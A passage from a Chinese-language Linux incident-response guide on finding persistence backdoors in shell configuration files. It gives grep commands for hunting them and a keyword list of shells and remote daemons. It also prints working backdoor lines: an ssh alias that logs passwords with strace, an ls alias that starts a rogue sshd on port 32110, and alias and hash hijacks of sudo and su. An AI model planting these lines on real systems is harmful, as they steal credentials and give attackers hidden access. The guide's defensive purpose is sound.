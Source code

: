 可以在排查时关注脚本文件内是否含有以下字符串：
```shell
/bin/bash
/bin/sh
/usr/sbin/in.telnetd
/usr/sbin/in.rshd
/usr/sbin/in.rlogind
/usr/sbin/in.rexecd
```

### 1.4 篡改shell及公共配置文件

#### 1.4.1 别名后门

命令别名后门通过在shell配置文件及公共配置文件中定义alias/hash等命令诱导用户使用被篡改的命令。排查方式比较简单，检查文档中是否出现此类关键字就行。一般来说，默认的alias即使有命令也普遍集中于ls/grep。
```shell
a=(/etc/profile /etc/bashrc ~/.bashrc ~/.bash_file ~/.profile)
for i in `echo $a`;do grep "alias\|hash" $i; done
```

常见的别名后门，如：
```shell
# 在/etc/profile内alias+strace+ssh偷密码：
alias ssh='strace -o /tmp/sshwd-`date '+%d%h%m%s'`.log -e read -s 2048 ssh'

# 在/etc/profile内添加了如下命令：
alias ls="alerts(){ ls $* --color=auto;ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=32110 };alerts"

# 在~/.bashrc中添加如下命令：
alias sudo='/tmp/.sudo'
```

不常见的，如：
利用hash命令，劫持常用命令。hash 用于查看terminal创建后某项命令程序的使用次数。hash -p参数可以用来设置某个二进制程序的运行别名，如果在/etc/profile内预先执行能达到类似于alias后门的效果。

```shell
hash -p /tmp/su-backdoor su 
hash -p /tmp/sudo-backdoor sudo
```

#### 1.4.2 篡改环境变量
程序的运行普遍依赖一定的环境变量，篡改环境变量可以改变程序的资源分配甚至改变使用者本想运行的命令。攻击者通过在shell配置文件及公共配置文件中设置环境变量的值达到影响程序的目的。

##### $PATH后门

攻击类型1：篡改$PATH

攻击者修改$PATH，手工加入更高优先级的目录，并放入同名后门程序，用来劫持常用的命令。排查命令：

```shell
grep -n "PATH=\|:\$PATH" ~/.* 2>/dev/null
grep -rn "PATH=\|:\$PATH" /etc/profi* 2>/dev/null
grep -n "PATH=\|:\$PATH" /etc/bashrc 2>/dev/null
```
检查结果中是否存在非常见的目录如：家目录、/tmp目录。

